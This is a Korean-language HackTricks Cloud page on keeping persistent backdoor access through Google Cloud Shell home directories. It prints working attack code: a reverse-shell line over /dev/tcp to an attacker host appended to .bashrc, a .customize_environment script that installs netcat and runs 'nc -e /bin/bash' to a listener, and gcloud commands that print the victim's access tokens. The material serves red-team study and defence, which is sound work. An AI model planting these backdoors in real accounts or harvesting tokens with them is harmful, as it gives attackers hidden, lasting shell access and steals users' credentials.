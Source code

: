 # GCP - 클라우드 셸 지속성

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong>를 통해 **제로부터 영웅까지 AWS 해킹 배우기**!</summary>

HackTricks를 지원하는 다른 방법:

* **회사를 HackTricks에서 광고하거나 HackTricks를 PDF로 다운로드**하고 싶다면 [**구독 요금제**](https://github.com/sponsors/carlospolop)를 확인하세요!
* [**공식 PEASS & HackTricks 스왜그**](https://peass.creator-spring.com)를 구매하세요
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)를 발견하세요, 당사의 독점 [**NFTs**](https://opensea.io/collection/the-peass-family) 컬렉션
* **💬 [Discord 그룹](https://discord.gg/hRep4RUj7f)** 또는 [텔레그램 그룹](https://t.me/peass)에 **가입**하거나 **트위터** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**를 팔로우**하세요.
* **HackTricks** 및 **HackTricks Cloud**에 PR을 제출하여 **해킹 트릭을 공유**하세요.
*
*
*
* github 저장소.

</details>

## 클라우드 셸

자세한 정보는 확인하세요:

{% content-ref url="../gcp-services/gcp-cloud-shell-enum.md" %}
[gcp-cloud-shell-enum.md](../gcp-services/gcp-cloud-shell-enum.md)
{% endcontent-ref %}

### 지속적인 백도어

[**Google Cloud Shell**](https://cloud.google.com/shell/)은 브라우저에서 클라우드 리소스에 대한 명령줄 액세스를 제공하며 관련 비용이 없습니다.

**Google Cloud Shell**에는 **웹 콘솔** 또는 **`gcloud cloud-shell ssh`**를 실행하여 액세스할 수 있습니다.

이 콘솔에는 공격자에게 흥미로운 몇 가지 기능이 있습니다:

1. **Google Cloud에 액세스 권한이 있는 모든 Google 사용자**는 완전 인증된 Cloud Shell 인스턴스에 액세스할 수 있습니다(서비스 계정은 조직의 소유자일지라도 가능).
2. 해당 인스턴스는 **활동이 없는 경우 최소 120일 동안 홈 디렉터리를 유지**합니다.
3. 해당 인스턴스의 활동을 모니터링할 **조직의 기능이 없습니다**.

이는 공격자가 사용자의 홈 디렉터리에 백도어를 설치할 수 있고 사용자가 최소 120일마다 GC Shell에 연결한다면 백도어가 유지되어 공격자가 다음과 같이 실행될 때마다 쉘을 얻을 수 있다는 것을 기본적으로 의미합니다:

{% code overflow="wrap" %}
```bash
echo '(nohup /usr/bin/env -i /bin/bash 2>/dev/null -norc -noprofile >& /dev/tcp/'$CCSERVER'/443 0>&1 &)' >> $HOME/.bashrc
```
{% endcode %}

홈 폴더에 **`.customize_environment`**라는 다른 파일이 있습니다. 이 파일이 존재하면 사용자가 **클라우드 셸**에 액세스할 때마다 **실행**됩니다 (이전 기술과 마찬가지로). 사용자가 클라우드 셸을 "자주" 사용하는 한 이전 백도어를 삽입하거나 다음과 유사한 백도어를 삽입하여 지속성을 유지할 수 있습니다:
```bash
#!/bin/sh
apt-get install netcat -y
nc <LISTENER-ADDR> 443 -e /bin/bash
```
{% hint style="warning" %}
**인증이 필요한 작업을 처음 수행할 때**, 사용자의 브라우저에 팝업 인증 창이 나타납니다. 이 창을 수락해야 명령을 실행할 수 있습니다. 예상치 못한 팝업이 나타나면 의심을 불러일으키고 사용 중인 지속성 방법을 손상시킬 수 있습니다.
{% endhint %}

이것은 클라우드 셸에서 `gcloud projects list`를 실행했을 때(공격자로) 브라우저 사용자 세션에서 본 팝업입니다:

<figure><img src="../../../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

그러나 사용자가 클라우드 셸을 활발히 사용한 경우 팝업이 나타나지 않고 사용자의 **토큰을 수집**할 수 있습니다.
```bash
gcloud auth print-access-token
gcloud auth application-default print-access-token
```
#### SSH 연결이 설정되는 방법

기본적으로 다음 3가지 API 호출이 사용됩니다:

* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default:addPublicKey](https://content-cloudshell.googleapis.com/v1/users/me/environments/default:addPublicKey) \[POST] (로컬에서 생성한 공개 키를 추가하도록 함)
* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default:start](https://content-cloudshell.googleapis.com/v1/users/me/environments/default:start) \[POST] (인스턴스를 시작하도록 함)
* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default](https://content-cloudshell.googleapis.com/v1/users/me/environments/default) \[GET] (구글 클라우드 쉘의 IP를 알려줌)

그러나 [여기](https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key)에서 더 많은 정보를 찾을 수 있습니다.

## 참고 자료

* [https://89berner.medium.com/persistant-gcp-backdoors-with-googles-cloud-shell-2f75c83096ec](https://89berner.medium.com/persistant-gcp-backdoors-with-googles-cloud-shell-2f75c83096ec)
* [https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key](https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key)
* [https://securityintelligence.com/posts/attacker-achieve-persistence-google-cloud-platform-cloud-shell/](https://securityintelligence.com/posts/attacker-achieve-persistence-google-cloud-platform-cloud-shell/)
